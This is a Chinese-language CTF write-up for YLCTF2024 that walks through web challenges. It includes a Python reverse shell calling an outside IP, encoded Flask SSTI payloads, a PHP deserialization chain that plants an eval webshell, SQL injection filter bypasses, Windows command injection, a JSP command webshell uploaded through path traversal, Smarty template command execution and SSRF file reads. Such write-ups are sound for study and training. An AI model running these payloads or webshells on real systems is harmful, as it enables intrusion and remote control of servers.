+++
title = "YLCTF2024"
slug = "ylctf2024"
description = "企业赛还是很有强度的"
date = "2024-10-29T18:55:48"
lastmod = "2024-10-29T18:55:48"
image = ""
license = ""
categories = ["赛题"]
tags = ["Java", "mysql"]
+++

# 0x01 说在前面

这个比赛，新，而且确实是学到东西了

# 0x02 question

## [Round 1] Disal

拿到源码之后就绕过就可以了

```php
<?php
show_source(__FILE__);
include("flag_is_so_beautiful.php");
$a=@$_POST['a'];
$key=@preg_match('/[a-zA-Z]{6}/',$a);
$b=@$_REQUEST['b'];

if($a>999999 and $key){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?> 
```

```
b=1333%00&a=1e6aaaaaa
```

## [Round 1] Injct

F12一看是个Flask，这里直接来就是说fenjing，不过没有回显，我们弹个`shell`

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("110.42.47.145",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

就可以了

```
提交表单完成，返回值为200，输入为{'name': "{%if(((cycler.next|attr(('%c'%95)*2+'globals'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2)(('%c'%95)*2+'builtins'+('%c'%95)*2)|attr(('%c'%95)*2+'getitem'+('%c'%95)*2)(('%c'%95)*2+'i''mport'+('%c'%95)*2))('os')|attr('p''open'))('\\160\\171\\164\\150\\157\\156\\40\\55\\143\\40\\47\\151\\155\\160\\157\\162\\164\\40\\163\\157\\143\\153\\145\\164\\54\\163\\165\\142\\160\\162\\157\\143\\145\\163\\163\\54\\157\\163\\73\\163\\75\\163\\157\\143\\153\\145\\164\\56\\163\\157\\143\\153\\145\\164\\50\\163\\157\\143\\153\\145\\164\\56\\101\\106\\137\\111\\116\\105\\124\\54\\163\\157\\143\\153\\145\\164\\56\\123\\117\\103\\113\\137\\123\\124\\122\\105\\101\\115\\51\\73\\163\\56\\143\\157\\156\\156\\145\\143\\164\\50\\50\\42\\61\\61\\60\\56\\64\\62\\56\\64\\67\\56\\61\\64\\65\\42\\54\\71\\71\\71\\71\\51\\51\\73\\157\\163\\56\\144\\165\\160\\62\\50\\163\\56\\146\\151\\154\\145\\156\\157\\50\\51\\54\\60\\51\\73\\40\\157\\163\\56\\144\\165\\160\\62\\50\\163\\56\\146\\151\\154\\145\\156\\157\\50\\51\\54\\61\\51\\73\\157\\163\\56\\144\\165\\160\\62\\50\\163\\56\\146\\151\\154\\145\\156\\157\\50\\51\\54\\62\\51\\73\\151\\155\\160\\157\\162\\164\\40\\160\\164\\171\\73\\40\\160\\164\\171\\56\\163\\160\\141\\167\\156\\50\\42\\163\\150\\42\\51\\47').read())%}"}，表单为{'action': '/greet', 'method': 'POST', 'inputs': {'name'}}
```

不过我有点奇葩的就是这个跑了好久好久

## [Round 1] pExpl

序列化明天看，今天累了

----

```php
<?php
error_reporting(0);


class FileHandler {
    private $fileHandle;
    private $fileName;

    public function __construct($fileName, $mode = 'r') {
        $this->fileName = $fileName;
        $this->fileHandle = fopen($fileName, $mode);
        if (!$this->fileHandle) {
            throw new Exception("Unable to open file: $fileName");
        }
        echo "File opened: $fileName\n";
    }

    public function readLine() {
        return fgets($this->fileHandle);
    }

    public function writeLine($data) {
        fwrite($this->fileHandle, $data . PHP_EOL);
    }

    public function __destruct() {
        if (file_exists($this->fileName) &&!empty($this->fileHandle)) {
            fclose($this->fileHandle);
            echo "File closed: {$this->fileName}\n";
        }
    }
}

class User {

    private $userData = [];

    public function __set($name, $value) {
        if ($name == 'password') {
            $value = password_hash($value, PASSWORD_DEFAULT);
        }
        $this->userData[$name] = $value;
    }

    public function __get($name) {
        return $this->userData[$name] ?? null;
    }

    public function __toString() {
        if(is_string($this->params) && is_array($this->data) && count($this->data) > 1){
            call_user_func($this->data,$this->params);
        }
        return "Hello";
    }

    public function __isset($name) {
        return isset($this->userData[$name]);
    }
}

class Logger {
    private $logFile;
    private $lastEntry;

    public function __construct($logFile = 'application.log') {
        $this->logFile = $logFile;
    }

    private function log($level, $message) {
        $this->lastEntry = "[" . date("Y-m-d H:i:s") . "] [$level] $message" . PHP_EOL;

        file_put_contents($this->logFile, $this->lastEntry, FILE_APPEND);
    }

    public function setLogFile($logFile) {
        $this->logFile = $logFile;
    }

    public function clearOldLogs($daysToKeep = 30) {
        $files = glob("*.log");
        $now = time();
        foreach ($files as $file) {
            if (is_file($file)) {
                if ($now - filemtime($file) >= 60 * 60 * 24 * $daysToKeep) {
                    unlink($file);
                }
            }
        }
    }

    public function __call($name, $arguments) {

        $validLevels = ['info', 'warning', 'error', 'debug'];
        if (in_array($name, $validLevels)) {
            $this->log(strtoupper($name), $arguments[0]);
        } else {
            throw new Exception("Invalid log level: $name");
        }
    }

    public function __invoke($message, $level = 'INFO') {
        $this->log($level, $message);
    }
}

if(isset($_GET['exp'])) {
    if(preg_match('/<\?php/i',$_GET['exp'])){
        exit;
    }
    $exp = unserialize($_GET['exp']);
    throw new Exception("Test!");
} else {
    highlight_file(__FILE__);
}
```

很乱，慢慢看

```
FileHandler::destruct->User::toString->call_user_func->Logger::call->Logger::log
```

中间poc有地方写错了，改了好久

```php
<?php
class FileHandler {
    private $fileHandle;
    private $fileName;
    public function __construct($fileName) {
        $this->fileName=$fileName;
    }

}
class User{
    private $userData = [];
}
class Logger{
    private $logFile;
    private $lastEntry;
    public function __construct($logFile) {
        $this->logFile=$logFile;
    }
}
$a=new Logger("/var/www/html/shell.php");
$b=new User();
$b->data=[$a,"info"];
$b->params='<?=@eval($_POST[a]);?>';
$c=new FileHandler($b);

$d=array($c,null);
$A=serialize($d);
// echo $A."\n";
$B=str_replace("i:1;N;","i:0;N;",$A);
echo urlencode($B);
```

## **[Round 1] sInXx**

拿到就觉得是sql注入，这里不能随便闭合，必须要写一个员工名字



很明显注入成功了，然后继续测试发现并不是那么的简单，fuzz一下



果不其然被过滤了，这里我们用其他的来替换一下

```
search=juan79'%09and%09(1=1)#
search=juan79'%09and%09(1=2)#
```

测了好久，终于出来了，然后`,`又被过滤了我去

`join`绕过，说实话没用过这个姿势，宣

```mysql
mysql> select * from ((select 1)a join (select 2)b join (select 3)c join (select 4)d join (select 5)e);
+---+---+---+---+---+
| 1 | 2 | 3 | 4 | 5 |
+---+---+---+---+---+
| 1 | 2 | 3 | 4 | 5 |
+---+---+---+---+---+
1 row in set (0.03 sec)
```

```
search=1'%09UNION%09SELECT%09*%09FROM%09((SELECT%091)a%09join%09(SELECT%092)b%09join%09(SELECT%093)c%09join%09(SELECT%094)d%09join%09(SELECT%095)e)#
```

然后查表名，`information`也被禁用了，并且这里不能写`schema_name`，还都要是大写

```
search=1'%09UNION%09SELECT%09*%09FROM%09((SELECT%09GROUP_CONCAT(TABLE_NAME)%09FROM%09sys.schema_table_statistics_with_buffer%09WHERE%09TABLE_SCHEMA=DATABASE())a%09join%09(SELECT%092)b%09join%09(SELECT%093)c%09join%09(SELECT%094)d%09join%09(SELECT%095)e)#
```

```
search=1'%09UNION%09SELECT%09*%09FROM%09((SELECT%09`2`%09FROM%09(SELECT%09*%09FROM%09((SELECT%091)a%09JOIN%09(SELECT%092)b)%09UNION%09SELECT%09*%09FROM%09DataSyncFLAG)p%09limit%092%09offset%091)A%09join%09(SELECT%091)B%09join%09(SELECT%091)C%09join%09(SELECT%091)D%09join%09(SELECT%091)E)#
```

好复杂慢慢看，首先就是

```mysql
((SELECT  1)a  JOIN  (SELECT  2)b)查第一列和第二列

(SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b) UNION SELECT * FROM DataSyncFLAG)p
将这个取做一个新表

(SELECT `2` FROM (SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b) UNION SELECT * FROM DataSyncFLAG)p limit 2 offset 1)
查第二列的二三行
```

这道题真的好难写，这括号多了，无列名就是难受

## [Round 1] shxpl

是一个很典型的命令切割，但是这里用的是Windows容器

```
baidu.com&dir
```

绕过一下，好奇葩，不是我说啥东西，为什么这里一个`&`，后面的命令执行就要两个`&`，什么东西，而且在框子里面还不行无语了

```
domain=baidu.com%26%26dir%09/

domain=baidu.com%26%26nl%09/[a-z]lag_HHCVnCae
```

过滤的挺严实的，这个通配符我也基本没怎么用过，上次用还是在buuoj刷题的时候

## [Round 1] TOXEC

首先是文件上传，F12看了一下不是nginx也不是阿帕奇，那么只能是Java了？试试吧

并且测试到在重命名有个路径穿越漏洞

首先我们要覆盖`web.xml`，使得木马能够被解析

```xml
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
         http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         version="3.1">

 <welcome-file-list>
    <welcome-file>index.html</welcome-file>
  </welcome-file-list>

  <!-- 配置默认servlet来处理静态资源 -->
  <servlet-mapping>
    <servlet-name>default</servlet-name>
    <url-pattern>/</url-pattern>
  </servlet-mapping>

  <servlet>
    <servlet-name>jsp</servlet-name>
    <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
  </servlet>

  <!-- JSP Servlet 映射 -->
  <servlet-mapping>
    <servlet-name>jsp</servlet-name>
    <url-pattern>*.jsp</url-pattern>
    <url-pattern>*.jspx</url-pattern>
    <url-pattern>*.xml</url-pattern>
  </servlet-mapping>

</web-app>
```



再上传木马

```xml
<% 
    if("023".equals(request.getParameter("pwd"))){ 
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); 
        int a = -1; 
        byte[] b = new byte[2048]; 
        out.print("<pre>"); 
        while((a=in.read(b))!=-1){ 
            out.println(new String(b)); 
        } 
        out.print("</pre>");
    } 
%>
```



就这样，但是这个文件上传真的很新，所以我们分析一下代码吧

```xml
if("023".equals(request.getParameter("pwd")))
检查密码pwd是否为023，如果是的话就进入代码段

java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); 
调用Runtime.getRuntime().exec()执行命令，密码为i

int a = -1; 
byte[] b = new byte[2048]; 
out.print("<pre>");
while((a=in.read(b))!=-1){ 
    out.println(new String(b)); 
} 
out.print("</pre>");
将输出打印到网页
```

## [Round 1] FastDB

打fastjson的反序列化

## [Round 2] Cmnts

源代码拿到`get_th1s_f1ag.php`

```php
<?php
include 'flag.php';
parse_str($_SERVER['QUERY_STRING']);

if (isset($pass)) {
    $key = md5($pass);
}
if (isset($key) && $key === 'a7a795a8efb7c30151031c2cb700ddd9') {
    echo $flag;
}
else {
    highlight_file(__FILE__);
}
```

这里这个函数直接传就可以了

```
key=a7a795a8efb7c30151031c2cb700ddd9
```

## [Round 2] PHUPE

有附件，跟进之后拿到过滤规则

```php
    public function uploadFile($file) {
        $name = isset($_GET['name'])? $_GET['name'] : basename($file['name']);
        $fileExtension = strtolower(pathinfo($name, PATHINFO_EXTENSION));
        if (strpos($fileExtension, 'ph') !== false || strpos($fileExtension, 'hta') !== false ) {
            return false;
        }
        $data = file_get_contents($file['tmp_name']);
        if(preg_match('/php|if|eval|system|exec|shell|readfile|t_contents|function|strings|literal|path|cat|nl|flag|tail|tac|ls|dir|:|show|high/i',$data)){
            echo "<script>alert('恶意内容!')</script>";
            return false;
        }
        $target_file = $this->uploadDir .$name;
        if (move_uploaded_file($file['tmp_name'], $target_file)) {
            echo "<script>alert('文件上传成功!')</script>";
            return true;
        }
        return false;
    }
}

```

并且看到是阿帕奇，那直接上传我的独家好东西，emm发现失败了



回到文件发现使用的是Smarty 模板，学到姿势是可以上传替换`tpl`文件进行命令执行，这里还需要使用八进制进行绕过

```
文件上传成功!

{extends file='views/layout.tpl'}
{block name=content}
    <h1>CTF File Reader</h1>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
    <pre>{$file_content}</pre>
{math equation="(\"\\163\\171\\163\\164\\145\\155\")(\"\\143\\141\\164\\40\\57\\146\\154\\141\\147\")"}
{/block}
```

然后发现是怎么都打不出回显

后面还专门去问了出题的师傅呜呜呜，太感谢了，继续回来看源码发现这个



```php
$name = isset($_GET['name'])? $_GET['name'] : basename($file['name']);
```

那么看数据包

```
POST /?name=../views/file_view.tpl HTTP/1.1
Host: challenge.yuanloo.com:36965
Content-Length: 543
Cache-Control: max-age=0
Origin: http://challenge.yuanloo.com:36965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOhBSCSJNjYQttlHY
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.yuanloo.com:36965/?name=../views/file_view.tpl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=7FF34B803FE2BCB06D97E8A3D66DD2A9
Connection: close

------WebKitFormBoundaryOhBSCSJNjYQttlHY
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

{extends file='views/layout.tpl'}
{block name=content}
    <h1>CTF File Reader</h1>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
    <pre>{$file_content}</pre>
{math equation="(\"\\163\\171\\163\\164\\145\\155\")(\"\\154\\163\\40\\57\")"}
{/block}
------WebKitFormBoundaryOhBSCSJNjYQttlHY--

```

终于是看到回显了

## **[Round 2] RedFox**

进来之后是一个简单的网站，这里随便注册了一个`admin`用户进来之后发现是可以发送邮件之类的，

创建POST这里让给一个`url`，很容易想到是`ssrf`，先直接用`file`读文件然后发现是什么都没有，访问一下图片看看

```
POST / HTTP/1.1
Host: challenge.yuanloo.com:39596
Content-Length: 67
Cache-Control: max-age=0
Origin: http://challenge.yuanloo.com:39596
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.yuanloo.com:39596/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=7FF34B803FE2BCB06D97E8A3D66DD2A9; PHPSESSID=qmae5dc2p3e3a55m7knvvrbqj1
Connection: close

action=create_post&content=1&image_url=file%3A%2F%2F%2Fetc%2Fpasswd
```



这里我直接用浏览器访问的时候发现抓不到包果然有问题，但是读不到flag，我们去读取php文件

index.php

```php
<?php

session_start();
require_once 'config.php';
require_once 'Database.php';
require_once 'User.php';
require_once 'Post.php';
require_once 'Message.php';

$db = new Database();
$user = new User($db);
$post = new Post($db);
$message = new Message($db);

$error = '';
$success = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['action'])) {
        switch ($_POST['action']) {
            case 'register':
                if (isset($_POST['username']) && isset($_POST['password']) && isset($_POST['email'])) {
                    if ($user->register($_POST['username'], $_POST['password'], $_POST['email'])) {
                        $success = "Registration successful. Please log in.";
                    } else {
                        $error = "Registration failed. Please try again.";
                    }
                }
                break;
            case 'login':
                if (isset($_POST['username']) && isset($_POST['password'])) {
                    if ($user->login($_POST['username'], $_POST['password'])) {
                        $success = "Login successful.";
                    } else {
                        $error = "Invalid username or password.";
                    }
                }
                break;
            case 'create_post':
                if (isset($_SESSION['user_id']) && isset($_POST['content'])) {
                    $imageUrl = isset($_POST['image_url']) ? $_POST['image_url'] : null;
                    if ($post->create($_SESSION['user_id'], $_POST['content'], $imageUrl)) {
                        $success = "Post created successfully.";
                    } else {
                        $error = "Failed to create post.";
                    }
                }
                break;
            case 'send_message':
                if (isset($_SESSION['user_id']) && isset($_POST['to_user_id']) && isset($_POST['content'])) {
                    if ($message->send($_SESSION['user_id'], $_POST['to_user_id'], $_POST['content'])) {
                        $success = "Message sent successfully.";
                    } else {
                        $error = "Failed to send message.";
                    }
                }
                break;
            case 'download_message':
                if (isset($_SESSION['user_id']) && isset($_POST['data'])) {
                    if ($user->test($_SESSION['user_id'], $_POST['data'])) {
                        $success = "successfully.";
                    } else {
                        $error = "fail.";
                    }
                }
                break;
        }
    }
}

$feed = $post->getFeed();
?>
```

Database.php

```php
<?php

class Database {
    private $conn;

    public function __construct() {
        $this->conn = new mysqli(DB_HOST, DB_USER, DB_PASS, DB_NAME);
        if ($this->conn->connect_error) {
            die("Connection failed: " . $this->conn->connect_error);
        }
    }

    public function query($sql, $params = []) {

        $stmt = $this->conn->prepare($sql);

        if ($stmt === false) {
            return false;
        }

        if (!empty($params)) {
            $types = str_repeat('s', count($params));
            $stmt->bind_param($types, ...$params);
        }

        $stmt->execute();

        if (stripos($sql, 'select') !== false) {
           return $stmt->get_result();
        } else {
            return $stmt->affected_rows;
        }
    }

    public function escape($value) {
        return $this->conn->real_escape_string($value);
    }
}
```

User.php

```php
<?php

class User {
    private $db;

    public function __construct($db) {
        $this->db = $db;
    }

    public function register($username, $password, $email) {
        $hashedPassword = password_hash($password, PASSWORD_DEFAULT);
        $sql = "INSERT INTO users (username, password, email) VALUES (?, ?, ?)";
        return $this->db->query($sql, [$username, $hashedPassword, $email]);
    }

    public function login($username, $password) {
        $sql = "SELECT * FROM users WHERE username = ?";
        $result = $this->db->query($sql, [$username]);
        if ($result->num_rows == 1) {
            $user = $result->fetch_assoc();
            if (password_verify($password, $user['password'])) {
                $_SESSION['user_id'] = $user['id'];
                $_SESSION['username'] = $user['username'];
                return true;
            }
        }
        return false;
    }
    
    public function test($id,$data){
        if(count(array_unique(str_split($data))) <= 7 && !preg_match('/[a-z0-9]/i', $data)){
            eval($data);
        }
    }
}
```

Post.php

```php
<?php

class Post {
    private $db;

    public function __construct($db) {
        $this->db = $db;
    }

    public function create($userId, $content, $imageUrl = null) {
        $sql = "INSERT INTO posts (user_id, content, image_url) VALUES (?, ?, ?)";
        $image = $this->uploadImage($userId,$imageUrl);
        return $this->db->query($sql, [$userId, $content, $image]);
    }

    public function getFeed($page = 1, $limit = 10) {
        $offset = ($page - 1) * $limit;
        $sql = "SELECT p.*, u.username FROM posts p JOIN users u ON p.user_id = u.id ORDER BY p.created_at DESC LIMIT ?, ?";
        return $this->db->query($sql, [$offset, $limit]);
    }

    public function uploadImage($userId, $imageUrl) {
        
        $filename = "";
        $curl = curl_init();
        curl_setopt ($curl, CURLOPT_URL, $imageUrl);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        $imageContent = curl_exec ($curl);
        curl_close ($curl);

        if(preg_match('/http|gopher|dict/i',$imageUrl) && preg_match('/php|<\?|script/i',$imageContent)){
            return false;
        }

        if ($imageContent !== false && strlen($imageContent)>50) {
            $filename = 'profile_' . md5($imageUrl) . '.jpg';
            file_put_contents('./uploads/' . $filename, $imageContent);
        }else{
            return false;
        }

        return "./uploads/" . $filename;
    }

}
```

Message.php

```php
<?php

class Message {
    private $db;

    public function __construct($db) {
        $this->db = $db;
    }

    public function send($fromUserId, $toUserId, $content) {
        $sql = "INSERT INTO messages (from_user_id, to_user_id, content) VALUES (?, ?, ?)";
        return $this->db->query($sql, [$fromUserId, $toUserId, $content]);
    }

    public function getConversation($user1Id, $user2Id, $page = 1, $limit = 20) {
        $offset = ($page - 1) * $limit;
        $sql = "SELECT * FROM messages WHERE (from_user_id = ? AND to_user_id = ?) OR (from_user_id = ? AND to_user_id = ?) ORDER BY created_at DESC LIMIT ?, ?";
        return $this->db->query($sql, [$user1Id, $user2Id, $user2Id, $user1Id, $offset, $limit]);
    }
}
?>
```

然后打包成一个项目放编译器里面审计，放进去一看，就`Post.php`文件有操作空间，是一个`ssrf`，但是这个漏洞我们已经利用了重新看`index`，发现有个东西我们没有用过



跟进之后发现是个`eval`

